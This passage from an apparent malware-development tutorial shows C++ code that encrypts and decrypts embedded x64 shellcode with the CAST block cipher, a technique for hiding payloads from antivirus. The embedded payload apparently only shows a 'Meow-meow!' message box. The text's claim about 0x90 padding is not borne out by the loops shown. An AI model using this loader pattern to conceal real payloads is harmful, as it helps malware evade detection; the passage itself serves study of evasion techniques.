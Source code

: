 ```cpp
  }

  block[0] = right;
  block[1] = left;
}
```

The main logic are encrypting and decrypting shellcode functions:    

```cpp
void cast_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    cast_encrypt((uint32_t*)(shellcode + i * BLOCK_SIZE), subkeys);
  }
}

void cast_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    cast_decrypt((uint32_t*)(shellcode + i * BLOCK_SIZE), subkeys);
  }
}
```

As you can see, they process the shellcode block by block (`8 bytes` at a time). Note that if the shellcode length is not a multiple of the block size, it is padded (`0x90`) before encryption and decrypted accordingly.    

Finally, we need to run payload:    

```cpp
int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  unsigned char padded[my_payload_len];
  memcpy(padded, my_payload, my_payload_len);

  uint32_t subkeys[ROUNDS][4];
  cast_key_schedule(key, subkeys);

  printf("original shellcode: ");
```